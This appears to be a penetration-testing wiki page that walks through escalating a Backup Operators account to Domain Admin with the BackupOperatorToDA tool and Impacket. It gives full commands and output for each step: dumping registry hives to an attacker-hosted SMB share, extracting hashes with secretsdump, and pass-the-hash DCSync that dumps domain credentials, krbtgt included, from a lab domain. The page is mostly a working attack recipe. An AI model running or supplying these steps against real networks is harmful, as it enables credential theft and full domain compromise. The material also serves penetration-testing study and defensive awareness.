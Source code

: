 ```yaml
---
title : "BackupOperatorToDA"
# pre : ' '
description : "From Backup Operator To Domain Admin."
date : 2022-02-22T17:33:18+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## BackupOperatorToDA - From Backup Operator To Domain Admin

If you compromise an account member of the group Backup Operators you can become the Domain Admin without RDP or WinRM on the Domain Controller.

All credit from [filip_dragovic](https://twitter.com/filip_dragovic) with his inital [POC](https://raw.githubusercontent.com/Wh04m1001/Random/main/BackupOperators.cpp) ! I build this project because I wanted to have a more generic binary with parameters and also being able to export the SAM database on the remote share!

## Prerequisites

* Compile the `.sln` file from [Github Repo](https://github.com/mpgn/BackupOperatorToDA) (or trust mine below.)
* Impacket [smbserver.py]({{< ref "smbserver-py" >}})
* Impacket [secretsdump.py]({{< ref "secretsdump-py" >}})
* Account in target domain with the 'Backup Operator' membership

{{%attachments title="Related files" fa_icon_class="far fa-file" pattern=".*(exe)"/%}}

### Account checking

First it it important to be sure the user is member of the 'Backup Operator' group.

```plain
Microsoft Windows [Version 10.0.19043.1526]
(c) Microsoft Corporation. All rights reserved.

C:\Users\johndo>whoami
offsec\johndo

C:\Users\johndo>net user johndo /domain
The request will be processed at a domain controller for domain offsec.nl.

User name                    johndo
Full Name                    John Do
[...SNIP...]

Local Group Memberships      *Backup Operators
Global Group memberships     *Domain Users
The command completed successfully.
```

### Set-up smbserver.py

It is recommended to check if the share is reachable from a Windows workstation without additional credentials.

```plain
$ smbserver.py -smb2support -ip 10.20.30.16 share .
Impacket v0.9.25.dev1+20220218.140931.6042675a - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.20.30.12,50555)
[*] AUTHENTICATE_MESSAGE (OFFSEC\johndo,WIN10)
[*] User WIN10\johndo authenticated successfully
[...SNIP...]
```

## Exploiting the vulnerable configuration

### Executable running and dumping SAM/SYSTEM/SECURITY

```plain
PS C:\> .\BackupOperatorToDA_release.exe -t \\srv2019.offsec.nl -u johndo -p Welkom1234 -d offsec.nl -o \\10.20.30.16\share\
Making user token
Dumping SAM hive to \\10.20.30.16\share\SAM
Dumping SYSTEM hive to \\10.20.30.16\share\SYSTEM
Dumping SECURITY hive to \\10.20.30.16\share\SECURITY
```

### Secretsdump SAM/SYSTEM/SECURITY

Two hashes can be used from here, the **'$MACHINE.ACC'** and/or **'administrator'** hash.

```plain
$ secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL
Impacket v0.9.25.dev1+20220218.140931.6042675a - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x9319e551be8d75919967f0065e0132b9
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:43bcb[...SNIP...]
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:e1842947e54ab3d9a8758531e8fc6049
[...SNIP...]
```

### Dump everything

#### Using administrator hash

```plain
$ secretsdump.py offsec.nl/administrator@srv2019.offsec.nl -hashes :97f2592347d8fbe42be381726ff9ea83 -just-dc
Impacket v0.9.25.dev1+20220218.140931.6042675a - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a0b5d64d34935c8a4780b715cfb444c4:::
offsec.nl\MARSHALL_FRANKS:1103:aad3b435b51404eeaad3b435b51404ee:dacd6680af15849bb89a4f0da30e99b0:::
offsec.nl\JAMES_VAUGHAN:1104:aad3b435b51404eeaad3b435b51404ee:75ed74673dd7bf358d48207fdd0d42e0:::
offsec.nl\WARD_CONTRERAS:1105:aad3b435b51404eeaad3b435b51404ee:e0e7955fe13737060bd2d0c5049a78d2:::
offsec.nl\EDDY_MILES:1106:aad3b435b51404eeaad3b435b51404ee:f41a8d181561d36de8ebfc96a0caac0f:::
offsec.nl\ANDREW_VASQUEZ:1107:aad3b435b51404eeaad3b435b51404ee:bc13660676fce9b4aab8fac6ed8adcd5:::
offsec.nl\ULYSSES_COTE:1108:aad3b435b51404eeaad3b435b51404ee:c7f0cab839fde136be09348e15febaba:::
[...SNIP...]
```

#### Using machine account hash

```plain
$ secretsdump.py offsec.nl/'srv2019$'@srv2019.offsec.nl -hashes :e1842947e54ab3d9a8758531e8fc6049 -just-dc
Impacket v0.9.25.dev1+20220218.140931.6042675a - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a0b5d64d34935c8a4780b715cfb444c4:::
offsec.nl\MARSHALL_FRANKS:1103:aad3b435b51404eeaad3b435b51404ee:dacd6680af15849bb89a4f0da30e99b0:::
offsec.nl\JAMES_VAUGHAN:1104:aad3b435b51404eeaad3b435b51404ee:75ed74673dd7bf358d48207fdd0d42e0:::
offsec.nl\WARD_CONTRERAS:1105:aad3b435b51404eeaad3b435b51404ee:e0e7955fe13737060bd2d0c5049a78d2:::
offsec.nl\EDDY_MILES:1106:aad3b435b51404eeaad3b435b51404ee:f41a8d181561d36de8ebfc96a0caac0f:::
offsec.nl\ANDREW_VASQUEZ:1107:aad3b435b51404eeaad3b435b51404ee:bc13660676fce9b4aab8fac6ed8adcd5:::
offsec.nl\ULYSSES_COTE:1108:aad3b435b51404eeaad3b435b51404ee:c7f0cab839fde136be09348e15febaba:::
[...SNIP...]
```

### URL list

* [Github.com - From Backup Operator To Domain Admin](https://github.com/mpgn/BackupOperatorToDA)
